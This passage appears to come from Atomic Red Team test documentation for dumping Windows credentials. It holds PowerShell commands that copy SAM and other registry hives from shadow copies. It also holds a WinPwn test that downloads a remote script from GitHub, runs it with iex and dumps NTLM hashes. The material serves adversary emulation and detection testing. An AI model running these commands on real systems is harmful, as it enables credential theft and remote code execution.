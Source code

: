 #### Attack Commands: Run with `powershell`!

```powershell
1..#{limit} | % {
 try { [System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy$_\Windows\System32\config\#{target_hive}" , "$env:TEMP\#{target_hive}vss$_", "true") } catch {}
 ls "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```

#### Cleanup Commands:

```powershell
1..#{limit} | % {
  rm "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Dump SAM-File for NTLM Hashes

Loot local Credentials - Dump SAM-File for NTLM Hashes technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 0c0f5f06-166a-4f4d-bb4a-719df9a01dbb

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
samfile -consoleoutput -noninteractive
```

<br/>
